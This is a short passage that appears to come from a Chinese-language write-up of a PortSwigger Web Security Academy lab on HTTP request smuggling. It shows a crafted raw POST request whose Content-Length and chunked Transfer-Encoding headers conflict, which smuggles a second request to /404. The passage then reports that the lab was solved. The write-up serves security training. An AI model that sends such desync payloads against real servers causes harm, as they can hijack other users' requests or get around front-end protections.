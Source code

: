 
```plain
POST / HTTP/1.1
Host: 0a71000f036353f181142ace00340041.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[![](assets/1704418275-df673a7d4fefaa9591ab390afcfd69b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154907-92e77618-aa0c-1.png)  
第二个包请求后会给一个404响应  
[![](assets/1704418275-e79a74cdce1762d80b739edc5ed42e32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154925-9d76c49e-aa0c-1.png)  
随后成功解题：
